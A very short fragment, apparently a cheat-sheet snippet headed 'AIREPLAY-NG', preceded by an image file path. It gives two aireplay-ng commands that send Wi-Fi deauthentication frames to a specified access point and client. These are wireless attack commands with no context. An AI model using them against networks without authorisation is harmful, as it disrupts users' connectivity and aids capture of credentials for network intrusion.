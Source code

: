 # AIREPLAY-NG

$ aireplay-ng --deauth 100 -a 06:18:0A:D9:F6:A0 mon0

$ aireplay-ng -0 1 -a 06:18:0A:D9:F6:A0 -c 00:0F:B5:34:30:30 ath0